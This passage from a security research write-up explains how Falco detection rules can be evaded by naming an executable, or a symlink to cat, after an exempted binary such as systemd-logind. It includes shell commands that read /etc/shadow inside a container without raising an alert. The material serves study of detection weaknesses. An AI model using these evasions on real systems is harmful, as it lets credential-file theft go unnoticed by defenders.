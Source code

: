 ### <a name="naming"></a>Bypass rules via executable naming

Let us consider the same **Read sensitive file untrusted** rule again - is there another, non-symlink way to bypass the rule? This rule relies on the following condition: `and not proc.name in (user_mgmt_binaries,`, where _proc.name_ is (according to Falco documentation) "the name (excluding the path) of the executable generating the event". _user_mgmt_binaries_ macro, in turn, boils down to the following items list:
```
- list: login_binaries
  items: [
    login, systemd, '"(systemd)"', systemd-logind, su, nologin, faillog, lastlog, newgrp, sg]
```
We can check which one of those binaries does not exist in the container for the sake of no confusion and find _systemd-logind_ as a good candidate for diversion on our debian buster image. We write the simplest [file open C program](/fubers/fuber-openandreadfile.c) and compile it as a _systemd-logind_. Using this new binary, we can read sensitive files without tripping the Falco alarms:
```
[Host]
gcc fuber-openandreadfile.c -o systemd-logind
docker cp systemd-logind e35d7bc254a9:/tmp
----
[Container]
docker run --rm -it debian:10.2 bash
root@e35d7bc254a9:/# which systemd-logind
root@e35d7bc254a9:/# /tmp/systemd-logind /etc/shadow
root:*:18291:0:99999:7:::daemon:*:18291:0:99999:7:::bin:*:18291:0:99999:7:::sys:*:18291:0:99999:7:::sync:*:18291:0:99999:7:::games:*:18291:0:99999:7:::man:*:18291:0:99999:7:::lp:*:18291:0:99999:7:::mail:*:18291:0:99999:7:::news:*:18291:0:99999:7:::uucp:*:18291:0:99999:7:::proxy:*:18291:0:99999:7:::www-data:*:18291:0:99999:7:::backup:*:18291:0:99999:7:::list:*:18291:0:99999:7:::irc:*:18291:0:99999:7:::gnats:*:18291:0:99999:7:::nobody:*:18291:0:99999:7:::_apt:*:18291:0:99999:7:::root@e35d7bc254a9:/#
----
[Falco]
SILENCE
```
This bypass technique was also mentioned in the same Kubecon 2020 [presentation](https://www.youtube.com/watch?v=nGqWskXRSmo), but I believe it deserves more attention because of the ubiquitous nature of _proc.name_ construct. It appears over 140 times in the default ruleset structures and indeed many rules rely on the conditions involving _proc.name_ comparisons. Furthermore, the "and not" construct is very popular within the default ruleset as a means to avoid False Positives. In fact, most of the rules include some kind of "exception" list in one way or another.

If we think what rules can be bypassed through creation of custom binaries, it becomes apparent that the described approach is not scalable. For other malicious actions that incorporate events other than file/directory manipulations, writing a C program duplicating the functionality does not scale. Turns out, we do not have to duplicate the functionality. Merely creating the symlink named as one of the exception binaries should do the trick:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@4095c5a4eb4a:/# which cat
/bin/cat
root@4095c5a4eb4a:/# ln -s /bin/cat systemd-logind
root@4095c5a4eb4a:/# systemd-logind /etc/shadow
root@4095c5a4eb4a:/# ./systemd-logind /etc/shadow
root:*:18291:0:99999:7:::
...
-----
[Falco]
SILENCE
```


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS